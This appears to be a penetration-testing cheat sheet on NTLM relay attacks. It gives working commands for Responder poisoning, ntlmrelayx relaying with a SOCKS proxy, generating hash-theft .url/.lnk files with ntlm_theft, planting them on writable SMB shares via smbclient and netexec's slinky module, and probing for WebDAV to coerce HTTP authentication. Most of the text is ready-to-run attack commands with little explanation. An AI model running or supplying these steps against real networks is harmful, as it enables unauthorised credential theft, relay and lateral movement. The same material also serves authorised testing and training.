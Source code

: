 ### <mark style="color:yellow;">NTLM Relay over All Protocols</mark>

NTLMRelayX includes support for the an "all" wildcard enabling the exploitation of every relayed connection across all services and users.

```bash
# Turn off all protocols in Responder
sed -i '4,18s/= On/= Off/g' Responder.conf

# Start poisoning
sudo python3 Responder.py -I ens192

# Run socks with NLTM relay
sudo ntlmrelayx.py -tf relayTargets.txt -smb2support -socks

# In ntlmrelay check socks for sessions
socks
```

### <mark style="color:yellow;">Attacking SMB Shares</mark>

If having write access to a smb share we can generate files an drop them in to the share. For example .url or .lnk will browse the shared folder.

#### Create theft files

```bash
python3 ntlm_theft.py -g all -s 172.16.117.30 -f '@myfile'
```

Then upload the files and use all:// scheme to try to connect to all services

```bash
# Upload theft files
smbclient.py anonymous@172.16.117.3 -no-pass

# Upload theft files with netexec
nxc smb 172.16.117.3 -u anonymous -p '' -M slinky -o SERVER=172.16.117.30 NAME=important

# Connect to services. 
ntlmrelayx.py -tf relayTargets.txt -smb2support -socks
```

### <mark style="color:yellow;">WebDav Attacks</mark>

To force authentication via HTTP instead of SMB we can use WebDAV which is an extension of HTTP that specifies the methods for carrying out fundamental file operations like copying, moving, deleting and creatin files through HTTP.&#x20;

```bash
# Check if WebDav is running
nxc smb 172.16.117.0/24 -u zenpc$ -p pass123 -M webdav
```

<details><summary><strong>searchConnector-ms to start WebDav</strong></summary></details>
